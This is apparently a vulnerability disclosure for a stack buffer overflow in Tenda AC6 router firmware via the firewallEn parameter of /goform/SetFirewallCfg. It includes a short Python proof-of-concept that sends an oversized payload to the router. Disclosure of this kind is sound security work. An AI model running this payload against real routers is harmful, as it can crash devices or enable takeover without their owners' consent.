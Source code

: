 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/SetFirewallCfg`. When `firewallEn` is specified with excessive data, the buffer overflow occurs during `strcpy`.

![alt text](image-1.png)
## poc
![alt text](image.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'firewallEn': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x110 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/SetFirewallCfg", payload)
```
